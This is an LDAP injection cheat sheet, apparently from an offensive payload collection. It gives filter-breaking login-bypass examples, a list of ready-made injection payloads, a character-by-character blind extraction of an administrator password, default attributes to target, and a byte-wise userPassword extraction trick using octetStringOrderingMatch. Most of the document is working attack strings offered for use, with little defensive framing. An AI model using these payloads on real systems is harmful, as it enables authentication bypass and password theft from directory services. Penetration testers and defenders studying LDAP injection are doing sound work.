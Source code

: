 # LDAP injection

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

## Exploitation

Example 1.

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = "(&(uid=*)(uid=*)) (|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))"
```

Example 2

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## Payloads

```text
*
*)(&
*))%00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## Blind Exploitation

We can extract using a bypass login

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## Defaults attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## Exploiting userPassword attribute

userPassword’ attribute in not a string like the ‘cn’ attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Thanks to

* [OWASP LDAP Injection](https://www.owasp.org/index.php/LDAP_injection)
* [LDAP Blind Explorer](http://code.google.com/p/ldap-blind-explorer/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN](https://0xukn.fr/posts/WriteUpECW2018AdmYSsion/)